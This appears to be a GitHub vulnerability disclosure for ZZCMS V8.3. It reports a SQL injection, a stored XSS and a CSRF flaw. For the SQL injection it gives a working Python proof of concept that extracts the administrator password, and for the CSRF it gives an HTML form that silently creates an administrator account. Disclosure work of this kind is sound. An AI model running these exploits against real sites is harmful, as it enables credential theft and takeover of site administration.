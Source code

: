 # ZZCMS V8.3

## 1. SQL Injection
 
#### dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

#### POC：
```
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f29*****801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
```

You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


## 2. Stored XSS

#### /user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
#### /zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

#### Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


## 3. CSRF
After the administrator logged in, open the following  page
poc：
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


## Vulnerabilities are owned by Patec HanGuang Lab
